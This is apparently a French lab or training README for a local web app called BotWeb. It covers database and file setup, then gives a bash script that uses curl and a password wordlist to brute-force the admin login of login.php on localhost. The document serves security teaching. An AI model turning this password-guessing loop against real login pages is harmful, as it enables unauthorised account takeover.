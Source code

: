 # Péparation de l'environnement

## La base de données

Avec phpmyadmin, importer le fichier ```dbBotWeb.sql```.

## Les fichiers

Dans le dossier ```/var/www/html```, créer le dossier ```/Formation/Botweb/``` et y mettre dedans les fichiers nécessaires.


La présentation représente une méthode avec **```/dev/tcp/server/port```**

# Méthod avec **```curl```**

```curl``` est une puissante commande qui permet de poster ou de consulter des données vers ou à partir d'un serveur web. https://en.wikipedia.org/wiki/CURL

## Programme bash
```bash
#!/bin/bash

user="admin"
#Main
while read pass
do
  echo "Testing $pass"
  response=$(curl -s -X POST 'http://localhost/Formation/BotWeb/login.php' \
              --data-urlencode "login=${user}" --data-urlencode "mp=${pass}")
  if [[ $response =~ ^.*Bienvenue[[:space:]]admin.*$ ]]
  then
    echo "Bingo: Mot de passe trouvé ($pass)"
    exit
  fi
done < $1
```
